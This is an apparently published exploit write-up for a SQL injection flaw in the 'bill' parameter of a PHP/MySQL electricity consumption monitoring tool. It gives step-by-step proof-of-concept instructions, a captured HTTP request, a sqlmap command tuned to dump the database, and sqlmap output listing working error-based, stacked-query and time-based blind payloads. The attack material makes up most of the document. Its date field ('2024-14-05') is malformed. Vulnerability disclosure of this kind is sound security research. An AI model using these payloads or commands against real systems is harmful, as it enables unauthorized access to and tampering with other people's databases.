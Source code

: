 # Electricity Consumption Monitoring Tool - SQL Injection
+ **Exploit Title:** Electricity Consumption Monitoring Tool - SQL Injection
+ **Date:** 2024-14-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17328/electricity-consumption-monitoring-tool-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17328&title=Electricity+Consumption+Monitoring+Tool+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Electricity Consumption Monitoring Tool allows SQL Injection via the 'bill' parameter at "http://localhost/electricity-comsumption-monitoring/endpoint/delete-bill.php?bill=11"
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/electricity-comsumption-monitoring/
+ Click the delete button.
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /electricity-comsumption-monitoring/endpoint/delete-bill.php?bill=11 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'bill' parameter to dump the database.
```
sqlmap -r r.txt -p bill --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: bill (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: bill=11' AND EXTRACTVALUE(7545,CONCAT(0x5c,0x7170766a71,(SELECT (ELT(7545=7545,1))),0x71786a6271))-- hefU

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: bill=11';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: bill=11' AND (SELECT 6978 FROM (SELECT(SLEEP(5)))FJrn)-- mPTe
---
[18:29:47] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:29:47] [INFO] fetching current database
[18:29:47] [INFO] retrieved: 'electricity_db'
current database: 'electricity_db'

```
+ current database: `electricity_db`

![Ekran görüntüsü 2024-05-19 164445](https://github.com/BurakSevben/CVEs/assets/117217689/93a056dc-46df-4adf-88c8-65d7f1de1b09)

